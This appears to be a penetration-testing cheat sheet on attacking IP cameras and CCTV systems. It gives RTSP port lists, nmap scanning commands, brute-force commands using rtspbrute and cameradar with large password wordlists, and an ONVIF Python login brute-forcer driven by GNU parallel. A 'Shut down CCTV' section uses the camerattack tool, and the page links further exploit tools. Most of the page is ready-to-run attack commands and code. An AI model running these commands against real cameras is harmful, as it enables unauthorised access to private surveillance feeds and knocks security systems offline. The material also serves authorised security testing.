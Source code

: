 # Hacking

&#x20;

<figure><img src="../../.gitbook/assets/image (162).png" alt="" width="563"><figcaption><p>"You see, but you do not observe." - S. Holmes</p></figcaption></figure>

## Default credentials

* [The default passwords of nearly every IP camera, Hackers Arise (2023)](https://www.hackers-arise.com/post/the-default-passwords-of-nearly-every-ip-camera)
* [Default Camera Passwords, IspyConnect](https://www.ispyconnect.com/userguide-default-passwords.aspx)

## RTSP

### Seeking out

> **Ports used by RTSP** :
>
> * 554
> * 5554
> * 8554

**Make a request**

```bash
curl -i -X OPTIONS rtsp://$ip/stream1 RTSP/1.1
# a valid RTSP service should respond RTSP/1.0 200 OK
```

### Scanning

```bash
nmap -sV --script "rtsp-*" -p $port $ip
```

### Bruteforce

[Common wordlist](https://github.com/nmap/nmap/blob/master/nselib/data/rtsp-urls.txt)

```bash
pip install rtspbrute av Pillow rich
rtspbrute -t hosts.txt -p 8554
```

### Cameradar | Get all the infos + bruteforce

```bash
git clone https://github.com/Ullaakut/cameradar
cd cameradar
# scan for default ports
docker run --net=host -t ullaakut/cameradar -t $ip

# bruteforce
docker run -t ullaakut/cameradar -t $ip -p $port -T 3s -s 3 -d
# with custom wordlist
docker run  ullaakut/cameradar -t -v /usr/share/seclists/Passwords/Common-Credentials:/tmp/dictionaries -c "tmp/dictionaries/10-million-password-list-top-1000000.json" -t $ip
```

## ONVIF

> If you receive long output in XML markup, then this device has support for the ONVIF protocol. ONVIF does not have a standard port, usually this protocol is found on ports 8899, 80, 8080, 5000, 6688.

### Install

```bash
sudo pip install onvif
git clone https://github.com/quatanium/python-onvif.git
cd python-onvif && python setup.py install
```

### Commands

**Get the hostname using this python script :**

```python
# python script
from onvif import ONVIFCamera
mycam = ONVIFCamera('192.168.0.2', 80, 'user', 'passwd', '/etc/onvif/wsdl/')

# Get Hostname
resp = mycam.devicemgmt.GetHostname()
print 'My camera`s hostname: ' + str(resp.Name)

# Get system date and time
dt = mycam.devicemgmt.GetSystemDateAndTime()
tz = dt.TimeZone
year = dt.UTCDateTime.Date.Year
hour = dt.UTCDateTime.Time.Hour
```

### Bruteforce

* Python Script :

```python
import sys
from onvif import ONVIFCamera
 
if len(sys.argv) < 4:
    user = ''
else:
    user = sys.argv[3]
 
if len(sys.argv) < 5:
    password = ''
else:
    password = sys.argv[4]      
 
mycam = ONVIFCamera(sys.argv[1], sys.argv[2], user, password, '/usr/local/lib/python3.9/site-packages/wsdl/')
 
resp = mycam.devicemgmt.GetDeviceInformation()
print (str(resp))
```

* Launch it :

```bash
parallel -j2 -a usernames.txt -a passwords.txt 'python3 bruteforcer.py $ip $port 2>/dev/null {1} {2}'
```

## Shut down CCTV

{% embed url="https://github.com/Ullaakut/camerattack" %}

```bash
# install
export GO111MODULE=on
go get github.com/ullaakut/camerattack@latest
cd $GOPATH/src/github.com/ullaakut/camerattack
go install

# usage
camerattack rtsp://0.0.0.0:8554/live.sdp
```

## Tricks that could work

> Try to login with empty passwords 7+ times

## Tools

{% embed url="https://github.com/EntySec/CamOver" %}
For CCTV, GoAhead, Netwave
{% endembed %}

## Resources

*   [Exploiting Surveillance Cameras like a Hollywood Hacker - Craig Heffner (2013)](https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf)

    > Linked exploit tool : [IPCamShell](https://github.com/nmalcolm/ipcamshell)
* [Hacking CCTV and IP cameras: Are you safe ? - David Bombai, Youtube (2022)](https://www.youtube.com/watch?v=ZGCScbV7vSA)

